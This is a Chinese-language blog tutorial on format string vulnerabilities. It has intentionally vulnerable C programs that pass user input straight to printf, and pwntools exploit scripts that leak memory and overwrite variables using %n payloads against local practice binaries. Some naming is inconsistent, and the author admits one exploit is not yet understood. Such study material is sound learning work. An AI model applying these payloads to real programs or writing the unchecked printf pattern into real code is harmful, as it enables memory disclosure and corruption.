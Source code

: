 ﻿---
layout:     post
title:      格式化字符串漏洞
subtitle:   
date:       2023-10-15
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

格式化字符漏洞

主要利用到以下的4种格式：

- s，如果没有用 l 标志，输出 null 结尾字符串直到精度规定的上限；如果没有指定精度，则输出所有字节。如果用了 l 标志，则对应函数参数指向 wchar_t 型的数组，输出时把每个宽字符转化为多字节字符，相当于调用 wcrtomb 函数。
- x/X，16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
- p， void * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
- n，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

### 漏洞原理

wiki上面写的很详细了，直接复制如下：

```
Input: printf("Color %s, Number %d, Float %4.2f", "red", 123456, 3.14)
Output: Color red, Number 123456, Float 3.14
```

以上面的函数为例，在进入 printf 函数的之前 (即还没有调用 printf)，栈上的布局由高地址到低地址依次如下

```
some value
3.14
123456
addr of "red"
addr of format string: Color %s...
```

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
  - 如果没有字符，报错
  - 如果下一个字符是 %, 输出 %
  - 否则根据相应的字符，获取相应的参数，对其进行解析并输出

那么假设，此时我们在编写程序时候，写成了下面的样子

```
printf("Color %s, Number %d, Float %4.2f");
```

此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为

1. 解析其地址对应的字符串
2. 解析其内容对应的整形值
3. 解析其内容对应的浮点值

对于 2，3 来说倒还无妨，但是对于对于 1 来说，如果提供了一个不可访问地址，比如 0，那么程序就会因此而崩溃。

### 利用

1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
3. 利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。

```c
// 目标程序：leakmemory
// 编译：gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

#### 获知格式化字符串位置

首先通过`aaaa%p%p%p%p%p%p%p%p%p%p`查看输出中的0x41414141所在的位置，例如：

```
./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x70257025%
```

可以看到，0x41414141是第四个%p得到的结果，从而确定当前的格式化字符串的起始地址是输入函数的第五个参数，格式化字符串的第四个参数。

#### 泄露任意地址内存

如果我们获取到`leakmemory.got['__isoc99_scanf']`的地址为0x804c014，就可以通过输入`b'\x14\xc0\x04\x08%4$s'`，来得到`__isoc99_scanf`对应的libc的位置。exp如下：

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print (hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print (payload)
# gdb.attach(sh)
sh.sendline(payload)
print (hex(u32(sh.recv()[4:8]))) # remove the first bytes of __isoc99_scanf@got
```

#### 覆盖内存

```c
//目标程序：overflow
/* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

首先获取格式化字符串的位置

```
0xffd006bc
aaaa%p%p%p%p%p%p%p%p%p%p%p
aaaa0xffd006580xf7f357b00x1(nil)0x10x616161610x702570250x702570250x702570250x702570250x70257025%
```

可以看到是`0x61616161`是格式化字符串的第六个参数。

修改c的值为16的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
# gdb.attach(sh)
c_addr = int(sh.recvuntil(b'\n', drop=True), 16)
success('get c_addr: ' + hex(c_addr))

# 注意%n是将已经输出的字符的长度写入到指定地址
# 所以我们需要先输出c_addr共4个字节
# %012p用来将一个指针的地址以十六进制形式输出，并且总宽度为12个字符（包括前缀0x）
# 此时我们总输出了16个字节，再使用%n将16写入到c_addr中

payload = p32(c_addr) + b'%012p' + b'%6$n'
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

修改c的值为2的exp如下：

```python
from pwn import *

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)  

'''
因为a,b是全局变量，所以可以直接找到它的地址  
65: 0804a024     4 OBJECT  GLOBAL DEFAULT   25 a
52: 0804a028     4 OBJECT  GLOBAL DEFAULT   25 b
'''
a_addr = overwrite.symbols['a']
sh.recvuntil(b'\n')

# aa%8是第6个参数，$nxx是第7个，a_addr是第8个  
# 所以这里是先输出aa，使得输出字符数为2，然后通过%n将a的值修改为2  
# 最后的xx是为了和%n组合补齐8个字节  
payload = b'aa%8$nxx' + p32(a_addr)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())
```

下图为执行printf时的栈，同样可以看到：

- a的地址是函数第9个参数（格式化字符串的第8个参数）
- $nxx 刚好8个字节补齐

 ![16973665339831697366533459.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16973665339831697366533459.png)

修改b为0x12345678的exp如下：

这个exp还没看明白，改天继续研究

```python
from pwn import *

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr

def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i).decode('latin1')
        else:
            payload += p64(addr + i).decode('latin1')
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload.encode('latin1')

sh = process('./overwrite') 
overwrite = ELF('./overwrite')
# gdb.attach(sh)
b_addr = overwrite.symbols['b']
sh.recvuntil(b'\n')

payload = fmt_str(6,4,b_addr,0x12345678)
success('payload: ' + str(payload))
sh.sendline(payload)
print(sh.recv())

```


